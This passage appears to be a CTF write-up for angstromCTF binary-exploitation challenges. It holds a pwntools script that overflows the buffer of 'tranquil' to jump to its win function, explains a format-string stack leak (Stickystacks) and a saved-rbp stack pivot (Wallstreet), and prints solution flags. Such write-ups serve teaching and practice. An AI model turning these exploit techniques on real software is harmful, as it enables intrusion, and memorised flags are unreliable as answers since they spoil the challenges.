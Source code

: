 
```python
from pwn import *

e = ELF("./tranquil")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
#p = remote("shell.actf.co", 21830)

#context.log_level="debug"
gdb.attach(p, """break * win""")


p.sendlineafter(":", "A"*72 + p64(e.sym["win"]))

p.interactive()
```

Flag: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`


## Stickystacks
The `vuln` function reads the flag onto the stack. There is an obvious format string vulnerability, allowing us to leak parts of the stack.

However, our `name` can only be 6 characters long, so we can't spam `%p` until we see the flag. I used positional modifiers on the format string to get the flag back.

After some handwork the flag starts at `%31$p` on the stack, and we can leak the rest using `%p`.

Flag: `actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`

Many people messaged me with a half-flag (kinda looks like a flag but not legible). This is because they used `%x`, which only leaks an "Unsigned hexadecimal integer". Integers are 32 bits, so they would only get 4 bytes of each 8 byte chunk of the flag. You could also use `%llx` in replacement of `%p`.


## Wallstreet
This is a variation of `Stonk Market` from picoCTF 2021, which I had a great deal of frustration about.

As we can OOB view, some were tempted to use that to leak a stack or libc address and use the format string to write to an address. However, because the user buffer is in .bss, we can't use our input to write anywhere.

The solution is in how the program loads data after the user selects an index to view. It saves the pointer to the stack. So, we can make that pointer point to the saved $rbp of main. Using our format string, we can thus write to the saved $rbp of `main`. This allows us to stack pivot after `main` returns.
